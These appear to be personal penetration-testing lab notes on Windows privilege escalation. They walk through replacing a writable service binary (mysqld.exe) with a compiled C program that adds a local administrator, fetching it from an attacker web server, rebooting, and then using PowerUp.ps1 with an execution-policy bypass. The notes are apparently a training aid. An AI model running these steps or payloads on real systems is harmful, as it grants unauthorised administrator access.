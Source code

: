 			|M|Modify access|
			|RX|Read and execute access|
			|R|Read-only access|
			|W|Write-only access|
			I = inherited by parent dir```
	- Using icalcs on httpd.exe
		- ```icacls "C:\xampp\apache\bin\httpd.exe"```
	- Using icalcs on mysqld.exe
		- ```icacls "C:\xampp\mysql\bin\mysqld.exe"```
	- create a small binary to replace mysqld.exe
		- adduser.c ->
		- ```#include <stdlib.h>
			int main ()
			{int i;
			  i = system ("net user dave2 password123! /add");
			  i = system ("net localgroup administrators dave2 /add");
			  return 0;}```
	  - mingw-64
		  - cross-compile on kali
		  - since 64 bit -> x86_54
		  - ```x86_64-w64-mingw32-gcc adduser.c -o adduser.exe```
	- Transfer .exe to TGT
		1. ```iwr -uri http://192.168.45.201/adduser.exe -Outfile adduser.exe```
	- Move Windows binary to home directory, 
		1. ```move C:\xampp\mysql\bin\mysqld.exe mysqld.exe```
			- To later restore service
	- Replace windows binary with .exe
		1. ```move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe```
	- Restart service
		- ```net stop mysql``` = access denied
	- Check if service Startup Type is set to "Automatic"
		- ```Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}```
	- To reboot, user needs privilege *SeShutDownPrivilege*
	- List all privileges
		- whoami /priv
			- [Disabled = currently enabled for the running process (i.e whoami is not using it)]
	- Reboot system
		- ```shutdown /r /t 0```
			- /r = reboot
			- /t = in 0 seconds
	- Check if .exe worked and user was created
		- ```Get-LocalGroupMember administrators```
- PowerUp.ps1
	- ```cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .```
	- ```python3 -m http.server 80```
	- ```iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1```
	- ```powershell -ep bypass```
		- ExecutionPolicy Bypass -> need to run scripts
	- ```. .\PowerUp.ps1```
	- ``` ```
		- displays services the current user can modify
	- AbuseFunction
		- ```Install-ServiceBinary -Name 'mysql'```
	- ```Get-ModifiablePath``` 
	- ```$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal```
		- try service binary w/out arguments
	- ```$ModifiableFiles```
	- ```$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal```
		- add argument